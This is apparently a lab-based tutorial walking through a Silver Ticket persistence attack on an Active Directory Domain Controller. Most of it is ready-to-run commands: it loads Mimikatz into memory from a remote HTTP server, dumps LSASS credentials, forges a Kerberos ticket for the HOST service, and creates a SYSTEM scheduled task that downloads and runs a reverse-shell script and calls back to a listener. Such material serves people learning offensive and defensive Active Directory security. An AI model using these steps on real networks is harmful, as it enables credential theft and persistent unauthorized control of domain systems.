






Introduction
In this article, we will explain the fourth technique for persistence on the Domain Controller: the Silver Ticket attack.
What is a Silver Ticket?
The idea behind this technique is that it allows us to take control of a specific service running on a specific machine, whether it is the Domain Controller or any other machine in the domain.
Common Target Services
What are the services that typically exist on all machines that we can target?
- CIFS -- Common Internet File System
- HOST -- Host service for task scheduling
Note: There are many other services that can be targeted, but these two are the most relevant for our purposes.
What is the HOST Service and How Does It Help with Persistence?
The HOST service enables us to create scheduled tasks on the machine where we are exploiting the service. For example, we can create a scheduled task that executes a command to return a reverse shell. This way, whenever we want to re-access the machine at a later time, we simply trigger the scheduled task to get a reverse shell back.

What is the CIFS Service and How Does It Help with Persistence?
The CIFS service enables us to browse and access the file system of the machine where we are exploiting the service. This allows us to read, write, and modify files on the target.
Requirements for the Silver Ticket Attack
Before executing this technique, we need the following:
- NTLM hash of the target machine's computer account -- extracted using Mimikatz
- SID of the Domain
- Hostname of the target computer
- User to impersonate (e.g., Administrator)
Step-by-Step Walkthrough
We will execute this technique against the Domain Controller. To apply the technique, we must first have a PowerShell session running as a user who is a member of the Domain Admins group.
Step 1: Access the Domain Controller
First, we enter a remote PowerShell session on the Domain Controller:
Enter-PSSession -ComputerName dcorp-dc

Step 2: Set Up an HTTP Server for Mimikatz Delivery
Next, we start an HTTP server on the same path where the Mimikatz script is located, so we can load it remotely into the Domain Controller's memory.
Step 3: Load Mimikatz into Memory
We load the Invoke-Mimikatz PowerShell script into the Domain Controller's memory using the following command:
iex (iwr http://172.16.100.7/Invoke-Mimikatz.ps1 -UseBasicParsing)

Step 4: Extract All Credentials from the LSASS Process
Now we run Mimikatz to dump all passwords and hashes stored in the LSASS process:
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
This extracts the NTLM hash of the Domain Controller's computer account, which is the first requirement for creating our Silver Ticket.
Step 5: Obtain the Domain SID
Now we extract the second requirement -- the Domain SID -- using the PowerView tool:
Get-DomainSID

Step 6: Create the Silver Ticket Targeting the HOST Service
Now we open a new PowerShell session and use Mimikatz to create a Silver Ticket that targets the HOST service on the Domain Controller. The kerberos::golden command is used (Silver Tickets use the same Mimikatz command as Golden Tickets, but with the /service parameter to scope it to a specific service):
kerberos::golden /user:Administrator /rc4:e882c92024e683640c00ae83d43b5c88 /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /domain:dollarcorp.moneycorp.local /service:HOST /ptt
The /ptt flag injects the forged ticket directly into our current session.
Step 7: Verify Access to Scheduled Tasks
Now we verify that our Silver Ticket works by checking whether we can view the scheduled tasks on the Domain Controller:
schtasks /S dcorp-dc.dollarcorp.moneycorp.local
If we can list the scheduled tasks, it confirms that our HOST service Silver Ticket is working and we have the ability to create and manage scheduled tasks on the Domain Controller.

Step 8: Create a Scheduled Task for a Reverse Shell
Now we can create a scheduled task that will give us a reverse shell on the Domain Controller at any time we choose. We will use the Invoke-PowerShellTcp.ps1 script for this purpose.
First, we start an HTTP server on the same path where Invoke-PowerShellTcp.ps1 is located so the Domain Controller can download it.
Then we create the scheduled task using the following command:
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "jehad1" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.7/Invoke-PowerShellTcp.ps1''')'"
This creates a weekly scheduled task named jehad1 that runs as NT Authority\SYSTEM on the Domain Controller. When triggered, it downloads and executes the reverse shell script from our HTTP server.
Step 9: Start a Listener and Execute the Task
Before running the scheduled task, we start a listener on the port where the reverse shell will connect back, using PowerCat or Netcat.
Then we trigger the scheduled task:
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "jehad1"
The scheduled task executes on the Domain Controller, downloads our reverse shell script, and connects back to our listener -- giving us a fully interactive shell with NT AUTHORITY\SYSTEM privileges on the Domain Controller.
This scheduled task will persist, allowing us to trigger it at any point in the future to regain access to the Domain Controller without needing to re-exploit any vulnerabilities.
